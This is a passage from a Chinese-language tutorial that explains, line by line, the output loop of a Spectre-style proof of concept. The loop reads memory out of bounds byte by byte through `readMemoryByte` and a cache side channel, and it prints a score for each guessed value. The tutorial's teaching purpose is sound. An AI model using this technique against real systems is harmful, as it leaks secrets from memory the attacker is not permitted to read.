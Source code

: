 将malicious\_x转换为相对于数组array1起始地址的偏移量，也就是数组下标。

```cpp
        sscanf_s(argv[2], "%d", &len);
```

把读取的长度放到len变量中，也就是越界读取的字节数。

```cpp
        printf("Trying malicious_x = %p, len = %d\n", (void *)malicious_x, len);
```

上面的语句输出通过参数指定的下列信息：相对于数组array1的起始地址，从哪里开始读，读多少字节。

下面，代码将根据指定的内存起始地址，读取指定数量的字节内容：

```cpp

    printf("Reading %d bytes:\n", len);
    while (--len >= 0)
    {
        printf("Reading at malicious_x = %p... ", (void *)malicious_x);
        readMemoryByte(malicious_x++, value, score);
        printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
        printf("0x%02X='%c' score=%d ", value[0],
               (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
        if (score[1] > 0)
            printf("(second best: 0x%02X='%c' score=%d)", value[1],
                   (value[1] > 31 && value[1] < 127 ? value[1] : '?'),
                   score[1]);
        printf("\n");
    }

```

其中，最前面的printf函数：

```cpp
    printf("Reading %d bytes:\n", len);
```

输出要读取的字节数，然后，通过while循环，进行逐字节读取。每读取一个字节前，先输出当前字节的地址：

```cpp
        printf("Reading at malicious_x = %p... ", (void *)malicious_x);

```

然后，通过readMemoryByte函数：

```cpp
        readMemoryByte(malicious_x++, value, score);
```

利用瞬态执行漏洞，越权读取一个字节的内容，并通过缓存侧信道推测出该字节的内容。注意，每读取一个字节后，让指针malicious\_x指向下一个字节。并将本次读取的字节最可能的两个取值，以及它们相应的得分情况（即对应array2元素的缓存命中次数，下面，我们简称为命中次数）记录到相应的数组中。

然后，检查排名靠前的两个可能字节值的得分情况：

```cpp

        printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
```
